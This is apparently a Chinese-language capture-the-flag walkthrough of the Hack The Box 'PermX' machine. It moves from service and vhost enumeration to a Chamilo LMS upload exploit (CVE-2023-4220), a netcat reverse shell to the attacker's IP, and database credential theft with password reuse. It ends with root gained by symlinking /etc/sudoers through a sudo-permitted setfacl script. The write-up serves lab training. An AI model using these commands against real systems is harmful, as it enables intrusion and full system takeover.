



# 服务

```
┌──(root㉿kali)-[~]
└─# nmap -sV -Pn -A 10.10.11.23          
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-08 03:18 EDT
Nmap scan report for 10.10.11.23
Host is up (0.43s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e25c5d8c473ed872f7b4800349866def (ECDSA)
|_  256 1f41028e6b17189ca0ac5423e9713017 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=7/8%OT=22%CT=1%CU=31078%PV=Y%DS=2%DC=T%G=Y%TM=668B9303
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=104%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M53AST11NW7%O2=M53AST11NW7%O3=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AST11
OS:NW7%O6=M53AST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M53ANNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 111/tcp)
HOP RTT       ADDRESS
1   296.62 ms 10.10.16.1
2   538.97 ms 10.10.11.23

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.05 seconds

```

加域名
```
echo "10.10.11.23 permx.htb" >>/etc/hosts
```


web目录
```
┌──(root㉿kali)-[~]
└─# python3 /root/dirsearch/dirsearch.py -u http://permx.htb       

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10929

Output File: /root/dirsearch/reports/permx.htb/_24-07-08_03-29-59.txt

Error Log: /root/dirsearch/logs/errors-24-07-08_03-29-59.log

Target: http://permx.htb/

[03:30:00] Starting: 
[03:30:04] 301 -  303B  - /js  ->  http://permx.htb/js/                                                            
[03:30:26] 200 -   10KB - /404.html                                         
[03:30:31] 200 -    1KB - /LICENSE.txt                                      
[03:30:42] 200 -   20KB - /about.html                                        
[03:31:24] 200 -   14KB - /contact.html                                     
[03:31:26] 301 -  304B  - /css  ->  http://permx.htb/css/                   
[03:31:46] 301 -  304B  - /img  ->  http://permx.htb/img/                   
[03:31:50] 200 -   35KB - /index.html                                       
[03:31:52] 200 -  922B  - /js/                                              
[03:31:54] 301 -  304B  - /lib  ->  http://permx.htb/lib/                   
[03:31:54] 200 -    2KB - /lib/                                                                             
                                                                             
Task Completed

```

team页面有4个人名


- Noah
- Elsie
- Ralph
- Mia


# vhost爆破

```-mc 200```只显示http状态码是200的结果
```
┌──(root㉿kali)-[~]
└─# ffuf -w /usr/share/wordlists/SecLists-2023.2/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.permx.htb" -u http://permx.htb -mc 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://permx.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists-2023.2/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.permx.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 797ms]
lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 385ms]

```


加域名
```
echo "10.10.11.23 lms.permx.htb" >>/etc/hosts
```


首页是一个登录页面，app默认凭据无法登录


爆破web目录
```
┌──(root㉿kali)-[~/htb/permax]
└─# python3 /root/dirsearch/dirsearch.py -u http://lms.permx.htb

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10929

Output File: /root/dirsearch/reports/lms.permx.htb/_24-07-08_05-18-01.txt

Error Log: /root/dirsearch/logs/errors-24-07-08_05-18-01.log

Target: http://lms.permx.htb/

[05:18:02] Starting:            
[05:18:07] 200 -   46B  - /.bowerrc                                        
[05:18:08] 200 -    2KB - /.codeclimate.yml                                                                          
[05:18:19] 200 -    3KB - /.scrutinizer.yml                                
[05:18:21] 200 -    4KB - /.travis.yml                                      
[05:18:29] 200 -    5KB - /CONTRIBUTING.md                                  
[05:18:31] 200 -   34KB - /LICENSE                                          
[05:18:32] 200 -    8KB - /README.md                                        
[05:19:05] 301 -  312B  - /app  ->  http://lms.permx.htb/app/               
[05:19:05] 200 -    4KB - /app/                                             
[05:19:05] 403 -  278B  - /app/.htaccess                                    
[05:19:05] 200 -    2KB - /app/cache/
[05:19:05] 200 -  750B  - /app/logs/                                        
[05:19:06] 200 -  101KB - /app/bootstrap.php.cache                          
[05:19:10] 301 -  312B  - /bin  ->  http://lms.permx.htb/bin/               
[05:19:10] 200 -  941B  - /bin/                                             
[05:19:12] 200 -    1KB - /bower.json                                       
[05:19:14] 400 -  305B  - /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd     
[05:19:17] 200 -    7KB - /composer.json                                    
[05:19:20] 200 -  587KB - /composer.lock                                    
[05:19:29] 301 -  322B  - /documentation  ->  http://lms.permx.htb/documentation/
[05:19:29] 200 -    4KB - /documentation/                                   
[05:19:35] 200 -    2KB - /favicon.ico                                      
[05:19:44] 200 -   19KB - /index.php                                        
[05:19:44] 200 -   19KB - /index.php/login/                                 
[05:19:50] 200 -    2KB - /license.txt                                      
[05:19:55] 301 -  313B  - /main  ->  http://lms.permx.htb/main/             
[05:19:55] 200 -   94B  - /main/
[05:20:20] 200 -  748B  - /robots.txt                                       
[05:20:22] 403 -  278B  - /server-status                                    
[05:20:23] 403 -  278B  - /server-status/                                   
[05:20:30] 301 -  312B  - /src  ->  http://lms.permx.htb/src/               
[05:20:30] 200 -  932B  - /src/                                             
[05:20:43] 302 -    0B  - /user.php  ->  whoisonline.php                    
[05:20:46] 200 -    0B  - /vendor/composer/autoload_psr4.php                
[05:20:46] 200 -    0B  - /vendor/composer/autoload_real.php
[05:20:46] 200 -    0B  - /vendor/composer/autoload_namespaces.php
[05:20:46] 200 -    0B  - /vendor/composer/ClassLoader.php
[05:20:46] 200 -    0B  - /vendor/composer/autoload_files.php
[05:20:46] 200 -    0B  - /vendor/autoload.php
[05:20:46] 200 -    0B  - /vendor/composer/autoload_static.php
[05:20:46] 200 -    1KB - /vendor/composer/LICENSE                          
[05:20:46] 200 -    0B  - /vendor/composer/autoload_classmap.php            
[05:20:46] 200 -   17KB - /vendor/                                          
[05:20:48] 200 -    6KB - /web.config                                       
[05:20:48] 200 -    1KB - /web/                                             
[05:20:49] 200 -  531KB - /vendor/composer/installed.json  
```


robots.txt 
```
# Directories

Disallow: /app/
Disallow: /bin/
Disallow: /documentation/
Disallow: /home/
Disallow: /main/
Disallow: /plugin/
Disallow: /tests/
Disallow: /vendor/

# Files
Disallow: /license.txt
Disallow: /README.txt
Disallow: /whoisonline.php
Disallow: /whoisonlinesession.php
```

# foothold

经过一番搜索，使用[CVE-2023-4220](https://github.com/insomnia-jacob/CVE-2023-4220-)

[漏洞详情](https://nvd.nist.gov/vuln/detail/CVE-2023-4220)

得到一个webshell






下面payload得到一个rev shell

```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.21 4242 >/tmp/f
```


找到数据库密码:03F6lY3uXAP2bkW8
```
www-data@permx:/tmp/max$ cat /var/www/chamilo/app/config/configuration.php |grep db_
</www/chamilo/app/config/configuration.php |grep db_
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
$_configuration['db_manager_enabled'] = false;
//$_configuration['session_stored_in_db_as_backup'] = true;
//$_configuration['sync_db_with_schema'] = false;

```


user表
```
MariaDB [chamilo]> select user_id,username,email,password from user;
select user_id,username,email,password from user;
+---------+----------+-----------------------+--------------------------------------------------------------+
| user_id | username | email                 | password                                                     |
+---------+----------+-----------------------+--------------------------------------------------------------+
|       1 | admin    | admin@permx.htb       | $2y$04$1Ddsofn9mOaa9cbPzk0m6euWcainR.ZT2ts96vRCKrN7CGCmmq4ra |
|       2 | anon     | anonymous@example.com | $2y$04$wyjp2UVTeiD/jF4OdoYDquf4e7OWi6a3sohKRDe80IHAyihX0ujdS |
+---------+----------+-----------------------+--------------------------------------------------------------+
2 rows in set (0.000 sec)


```

这个数据库密码也是mtz的用户密码：
```
www-data@permx:/tmp/max$ su mtz
su mtz
Password: 03F6lY3uXAP2bkW8

mtz@permx:/tmp/max$ id
id
uid=1000(mtz) gid=1000(mtz) groups=1000(mtz)

```


拿到user.txt
```
┌──(root㉿kali)-[~/htb/permax]
└─# ssh mtz@10.10.11.23         
The authenticity of host '10.10.11.23 (10.10.11.23)' can't be established.
ED25519 key fingerprint is SHA256:u9/wL+62dkDBqxAG3NyMhz/2FTBJlmVC1Y1bwaNLqGA.
...
Last login: Tue Jul  9 07:22:01 2024 from 10.10.14.32
mtz@permx:~$ ls
setfacl  test.txt  user.txt
mtz@permx:~$ cat user.txt
09dc763ecb0a18855643a6bf8ec23b11
mtz@permx:~$ 

```

# 提权

sudo 特权

```
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh

```

acl.sh
```
mtz@permx:~$ cat /opt/acl.sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"

```
我们可以尝试修改 /etc/sudoers 文件的权限，使当前用户 mtz 可以编辑它。这将允许我们添加具有所有权限的条目。

首先，创建一个软链接指向 /etc/sudoers 文件：

```
ln -s /etc/sudoers /home/mtz/sudoers_link
```

然后，使用 acl.sh 脚本为 mtz 用户赋予对该软链接的写权限：

```
sudo /opt/acl.sh mtz rw /home/mtz/sudoers_link
```
此时，mtz 用户应该有权编辑 /etc/sudoers 文件。我们可以使用文本编辑器来编辑该文件：

```
vi /home/mtz/sudoers_link
```
在文件中添加以下行以授予 mtz 用户所有权限：

```
mtz ALL=(ALL) NOPASSWD:ALL
```
保存并退出编辑器。现在，mtz 用户可以在不输入密码的情况下使用 sudo 执行任何命令：

```
sudo bash
```

这将为 mtz 用户提供一个 root shell。

```
mtz@permx:~$ ln -s /etc/sudoers /home/mtz/sudoers_link
mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/sudoers_link
mtz@permx:~$ vi /home/mtz/sudoers_link
mtz@permx:~$ sudo bash
root@permx:/home/mtz# ls /root
backup  reset.sh  root.txt
root@permx:/home/mtz# cat /root/root.txt 
3b5caa2eca267399dffef7f1ac372abe
root@permx:/home/mtz# 

```

